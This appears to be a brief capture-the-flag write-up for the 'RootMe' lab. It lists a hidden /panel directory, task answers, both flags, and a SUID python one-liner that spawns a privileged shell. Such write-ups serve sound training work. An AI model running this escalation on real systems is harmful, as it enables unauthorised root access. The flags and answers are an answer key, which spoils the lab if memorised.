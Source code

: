 # Root Me-File upload&SUID python privilege escalation

```
export IP=10.10.5.184
```

# Material needed

1. Interesting directory: /panel

2. Privilege escalation

```
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

# Tasks

1. Scan the machine, how many ports are open? 2

2. What version of Apache is running? 2.4.29

3. what service is running on port 22?

4. What is the hidden directory? /panel/

5. user.txt

```
THM{y0u_g0t_a_sh3ll}
```

6. Search for files with SUID permission, which file is weird? /usr/bin/python

7. root.txt

```
THM{pr1v1l3g3_3sc4l4t10n}
```

